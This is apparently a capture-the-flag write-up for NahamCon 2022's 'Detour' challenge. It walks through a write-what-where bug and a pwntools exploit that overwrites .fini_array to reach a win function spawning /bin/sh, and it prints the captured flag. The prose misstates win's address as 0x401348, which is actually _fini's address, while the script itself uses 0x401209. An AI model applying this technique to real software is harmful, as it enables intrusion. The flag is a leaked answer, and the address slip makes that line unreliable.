

# Detour - NahamCon CTF 2022 - [https://www.nahamcon.com/](https://www.nahamcon.com/)
Binary Exploitation, 404 Points

## Description


 
## Detour Solution

Let's run ```checksec``` on the attached file [detour](./detour):
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/detour]
└──╼ $ checksec detour
[*] '/nahamcon/binary_exploitation/detour'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

As we can see we have [NX Enabled](https://ctf101.org/binary-exploitation/no-execute/) and [Stack Canary](https://ctf101.org/binary-exploitation/stack-canaries/).

Let's run the binary:
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/detour]
└──╼ $ ./detour
What: 1
Where: 2
Segmentation fault
```

So we can see that we have [Write-what-Were](https://www.martellosecurity.com/kb/mitre/cwe/123/).

Let's observe the ```main``` function using [Ghidra](https://github.com/NationalSecurityAgency/ghidra):
```c
undefined8 main(void)
{
  long in_FS_OFFSET;
  undefined8 local_20;
  long local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("What: ");
  __isoc99_scanf(&DAT_00402013,&local_20);
  getchar();
  printf("Where: ");
  __isoc99_scanf(&DAT_0040201f,&local_18);
  getchar();
  *(undefined8 *)((long)&base + local_18) = local_20;
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

And by observing the code we found also the ```win``` function:
```console
void win(void)
{
  system("/bin/sh");
  return;
}
```

We need to write the address of ```win``` function to location that can execute it.

We can do it by override the address of the ```fini_array``` which called after the ```main``` function.

Let's find the address of the relevant functions using ```gdb```:
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/detour]
└──╼ $ gdb detour
..
gef➤  info file
Symbols from "/nahamcon/binary_exploitation/detour/detour".
Local exec file:
	`/nahamcon/binary_exploitation/detour/detour', file type elf64-x86-64.
	Entry point: 0x4010f0
	0x00000000004002e0 - 0x00000000004002fc is .interp
	0x0000000000400300 - 0x0000000000400320 is .note.gnu.property
	0x0000000000400320 - 0x0000000000400344 is .note.gnu.build-id
	0x0000000000400344 - 0x0000000000400364 is .note.ABI-tag
	0x0000000000400368 - 0x0000000000400390 is .gnu.hash
	0x0000000000400390 - 0x0000000000400498 is .dynsym
	0x0000000000400498 - 0x000000000040052e is .dynstr
	0x000000000040052e - 0x0000000000400544 is .gnu.version
	0x0000000000400548 - 0x0000000000400588 is .gnu.version_r
	0x0000000000400588 - 0x00000000004005e8 is .rela.dyn
	0x00000000004005e8 - 0x0000000000400678 is .rela.plt
	0x0000000000401000 - 0x000000000040101b is .init
	0x0000000000401020 - 0x0000000000401090 is .plt
	0x0000000000401090 - 0x00000000004010f0 is .plt.sec
	0x00000000004010f0 - 0x0000000000401345 is .text
	0x0000000000401348 - 0x0000000000401355 is .fini
	0x0000000000402000 - 0x0000000000402023 is .rodata
	0x0000000000402024 - 0x0000000000402078 is .eh_frame_hdr
	0x0000000000402078 - 0x00000000004021b8 is .eh_frame
	0x00000000004031b8 - 0x00000000004031c8 is .init_array
	0x00000000004031c8 - 0x00000000004031d0 is .fini_array
	0x00000000004031d0 - 0x00000000004033a0 is .dynamic
	0x00000000004033a0 - 0x00000000004033b0 is .got
	0x00000000004033b0 - 0x00000000004033f8 is .got.plt
	0x00000000004033f8 - 0x0000000000403408 is .data
	0x0000000000403410 - 0x0000000000403438 is .bss
$2 = {<text variable, no debug info>} 0x401348 <_fini>
gef➤  print win
$3 = {<text variable, no debug info>} 0x401209 <win>
```
So we need to write ```0x401348``` (win) to ```0x4031c8``` (.fini_array).

By observing the code we can see the following line:
```c
*(undefined8 *)((long)&base + local_18) = local_20;
```

Meaning that we need to find also the address of the ```base```.

We can do it also by using ```gdb``` by disassemblie the ```main``` function:
```asm
gef➤  disassemble main
Dump of assembler code for function main:
   0x0000000000401220 <+0>:	endbr64 
   0x0000000000401224 <+4>:	push   rbp
   0x0000000000401225 <+5>:	mov    rbp,rsp
   0x0000000000401228 <+8>:	sub    rsp,0x20
   0x000000000040122c <+12>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000401235 <+21>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401239 <+25>:	xor    eax,eax
   0x000000000040123b <+27>:	lea    rdi,[rip+0xdca]        # 0x40200c
   0x0000000000401242 <+34>:	mov    eax,0x0
   0x0000000000401247 <+39>:	call   0x4010c0 <printf@plt>
   0x000000000040124c <+44>:	lea    rax,[rbp-0x18]
   0x0000000000401250 <+48>:	mov    rsi,rax
   0x0000000000401253 <+51>:	lea    rdi,[rip+0xdb9]        # 0x402013
   0x000000000040125a <+58>:	mov    eax,0x0
   0x000000000040125f <+63>:	call   0x4010e0 <__isoc99_scanf@plt>
   0x0000000000401264 <+68>:	call   0x4010d0 <getchar@plt>
   0x0000000000401269 <+73>:	lea    rdi,[rip+0xda7]        # 0x402017
   0x0000000000401270 <+80>:	mov    eax,0x0
   0x0000000000401275 <+85>:	call   0x4010c0 <printf@plt>
   0x000000000040127a <+90>:	lea    rax,[rbp-0x10]
   0x000000000040127e <+94>:	mov    rsi,rax
   0x0000000000401281 <+97>:	lea    rdi,[rip+0xd97]        # 0x40201f
   0x0000000000401288 <+104>:	mov    eax,0x0
   0x000000000040128d <+109>:	call   0x4010e0 <__isoc99_scanf@plt>
   0x0000000000401292 <+114>:	call   0x4010d0 <getchar@plt>
   0x0000000000401297 <+119>:	mov    rax,QWORD PTR [rbp-0x10]
   0x000000000040129b <+123>:	mov    rdx,rax
   0x000000000040129e <+126>:	lea    rax,[rip+0x218b]        # 0x403430 <base>
   0x00000000004012a5 <+133>:	add    rdx,rax
   0x00000000004012a8 <+136>:	mov    rax,QWORD PTR [rbp-0x18]
   0x00000000004012ac <+140>:	mov    QWORD PTR [rdx],rax
   0x00000000004012af <+143>:	mov    eax,0x0
   0x00000000004012b4 <+148>:	mov    rcx,QWORD PTR [rbp-0x8]
   0x00000000004012b8 <+152>:	xor    rcx,QWORD PTR fs:0x28
   0x00000000004012c1 <+161>:	je     0x4012c8 <main+168>
   0x00000000004012c3 <+163>:	call   0x401090 <__stack_chk_fail@plt>
   0x00000000004012c8 <+168>:	leave  
   0x00000000004012c9 <+169>:	ret    
End of assembler dump.
```

An we can see the ```base``` on ```lea    rax,[rip+0x218b]        # 0x403430 <base>``` which is ```0x403430```.

Let's solve it using [pwntools](https://docs.pwntools.com/en/stable/intro.html) with the following [code](./exp_detour.py):
```python
from pwn import *

elf = ELF('./detour')
libc = elf.libc

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 32680)
else:
    p = process(elf.path)

# funcions address
address_of_win = 0x401209
address_of_fini = 0x4031c8
address_of_base = 0x403430
p.recvuntil(':')
p.sendline(str(address_of_win))
p.recvuntil(':')
p.sendline(str(address_of_fini-address_of_base))
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/detour]
└──╼ $ python3 detour_pwn.py REMOTE
python3 exp_rop.py REMOTE
[*] '/nahamcon/binary_exploitation/detour'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/usr/lib/x86_64-linux-gnu/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenge.nahamcon.com on port 32680: Done
[*] Switching to interactive mode
 $ ls
bin
detour
dev
etc
flag.txt
lib
lib32
lib64
libx32
usr
$ cat flag.txt
flag{787325292ef650fa69541722bb57bed9}
```

And we get the flag ```flag{787325292ef650fa69541722bb57bed9}```.